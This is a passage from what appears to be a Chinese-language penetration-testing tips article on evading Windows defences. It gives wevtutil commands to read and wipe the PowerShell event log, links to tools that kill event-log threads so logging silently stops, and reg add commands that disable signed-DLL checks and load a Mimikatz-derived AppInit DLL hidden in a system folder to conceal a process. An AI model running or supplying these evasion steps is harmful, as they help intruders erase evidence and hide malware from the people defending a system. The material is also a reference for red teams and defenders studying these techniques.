  回显：

```
creationTime: 2016-11-28T06:01:37.986Z
lastAccessTime: 2016-11-28T06:01:37.986Z
lastWriteTime: 2017-08-08T08:01:20.979Z
fileSize: 1118208
attributes: 32
numberOfLogRecords: 1228
oldestRecordNumber: 1
```

 查看指定日志的具体内容：

```
wevtutil qe /f:text "windows powershell"
```

删除单个日志类别的所有信息：

```
wevtutil cl "windows powershell"
```

参考：《渗透技巧-Windows日志的删除与绕过》

#### Tips 5. 破坏Windows日志记录功能

通过调用TerminateThread结束实现日志功能的线程，使得日志记录功能失效，但Windows Event Log服务没有被破坏，状态仍为正在运行

Powershell:

https://github.com/hlldz/Invoke-Phant0m

C++:

https://github.com/3gstudent/Windwos-EventLog-Bypass

参考：

《渗透技巧-Windows日志的删除与绕过》

《利用API-NtQueryInformationThread和I_QueryTagInformation实现对Windwos日志监控的绕过》

#### Tips 6. Win7和Windows Server 2008 R2下的进程隐藏

利用globalAPIhooks，通过修改注册表实现

下载工程：https://github.com/subTee/AppInitGlobalHooks-Mimikatz

修改代码指定要隐藏的程序名cldr.exe，编译成cldr.dll，cldr.dll放在`C:\ProgramData\Microsoft\HelpLibrary\`

 管理员权限：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 1 /f
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t REG_SZ /d "C:\\ProgramData\\Microsoft\\HelpLibrary\\cldr.dll" /f
```
